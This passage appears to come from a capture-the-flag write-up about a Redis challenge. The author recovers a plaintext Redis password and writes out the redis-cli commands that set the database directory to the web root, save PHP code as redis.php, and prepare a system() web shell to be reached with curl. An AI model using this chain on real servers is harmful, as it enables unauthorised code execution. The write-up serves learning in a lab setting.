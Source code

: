 There near the top, it's the password in plain text!
> requirepass
> R3disp@ss

and at the bottom, it shows the IP address.
<img src="images-2020/holly-start2.png" width="500" />

``$ redis-cli -h 127.0.0.1 -a R3disp@ss`
(-h means we're specifying the host IP address; -a means we're authenticating with a password)

Now looking at the hint link… [Pentesting Redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)

Looks like we need to run the following commands from the redis command line:

`config set dir /var/www/html`
This command sets the current directory to the directory where the web files are

`config set dbfilename redis.php`
This command assigns redis.php as the database file, which then can execute the php

`set test "<?php phpinfo(); ?>"`
This command places our php code into the database

`save
quit`

And more about what that does… [here's info about the phpinfo() function](https://www.gurock.com/testrail/docs/admin/howto/running-phpinfo)

Here is the php that I could use:

`set test "<?php echo file_get_contents('index.php'); system(); ?>`

Then use curl to access the redis.php file and execute commands that could show us the index.php source code...
This took a little trial and error, including that I forgot about the comma/plus hing... you can see my attempts in this screenshot:
